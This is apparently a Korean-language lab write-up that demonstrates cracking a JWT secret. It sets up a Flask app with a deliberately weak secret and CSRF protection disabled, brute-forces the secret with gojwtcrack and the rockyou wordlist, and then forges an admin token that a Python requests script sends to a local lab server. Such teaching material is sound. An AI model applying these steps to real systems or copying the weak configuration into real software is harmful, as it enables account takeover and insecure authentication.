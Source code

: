 # JWT (Json Web Token)

[JWT](#https://ko.wikipedia.org/wiki/JSON_%EC%9B%B9_%ED%86%A0%ED%81%B0)는 인증 및 식별하기 위한 토큰 기반 인증으로 인터넷 표준이다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [JWT crack](#JWT-crack)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.142.128           |
| python3       | 3.8.10                    |
| flask         | 2.1.2                     |
| flask-jwt-extended    | 4.4.2             |
| go            | 1.13.8 linux/amd64        |

flask를 이용하여 JWT를 생성하기 위해 관련 패키지를 설치하자.

```sh
user@user:~$ sudo apt -y install python3-pip
user@user:~$ pip3 install flask flask-jwt-extended
```

```py
from flask import Flask, jsonify
from flask_jwt_extended import JWTManager, create_access_token, get_jwt_identity, jwt_required, set_access_cookies

app = Flask(__name__)
app.config['JWT_SECRET_KEY'] = '1234567890'
app.config['JWT_COOKIE_SECURE'] = False
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False
jwt = JWTManager(app)

@app.route('/', methods=['GET'])
def GetJWT():
    username = 'user'
    access_token = create_access_token(identity=username)
    resp = jsonify({'user': username, 'token' : access_token})
    set_access_cookies(resp, access_token)
    return resp, 200

@app.route('/auth', methods=['GET'])
@jwt_required()
def auth():
    username = get_jwt_identity()
    return jsonify({'user': username}), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001, debug=False)
```

# **JWT crack**

flask서버로 접속하면 jwt 값을 확인할 수 있다.

    access_token : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE

[jwt.io](#https://jwt.io/)에서 jwt를 디코딩하면 우측에 sub라는 키의 값은 user라고 나온다.

![](images/2022-07-05-21-33-24.png)

현재 secret key를 알 수 없으므로 Invalid Signature가 나온다.

golang을 설치하고 [jwt cracker](#https://github.com/x1sec/gojwtcrack)를 컴파일하자.

```sh
user@user:~$ sudo apt -y install golang-go
user@user:~$ go get -u github.com/x1sec/gojwtcrack
user@user:~$ go build -o gojwtcrack go/src/github.com/x1sec/gojwtcrack/main.go
```

dictionary attack을 위한 파일을 다운 받자.

```sh
user@user:~$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

jwt값을 token.txt파일로 저장하고 secret key가 딕셔너리에 포함되어 있다면, 크랙에 성공한다.

```sh
user@user:~$ go/bin/gojwtcrack -d rockyou.txt -t token.txt
1234567890      eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE
```

이후, [jwt.io](#https://jwt.io/)를 이용하여 sub의 값을 admin으로 바꾸고 secret key를 크랙의 결과 값을 넣어서 jwt를 만들자.

![](images/2022-07-05-21-41-38.png)

이후 cookie에 담아서 서버에 인증하면, user가 admin으로 변경됨을 확인할 수 있다.

```py
import requests

url = 'http://192.168.142.128:5001/auth'
user_token  = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE'

admin_token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNjU3MDE2NDY4LCJleHAiOjE2NTcwMTczNjh9.JDFj3EvsSaz8YXfCUeiGxL4X74QdPbi-w2M4XVG04Fo'

cookie = {'access_token_cookie':admin_token}
req = requests.get(url=url, cookies=cookie)
print(req.text)
```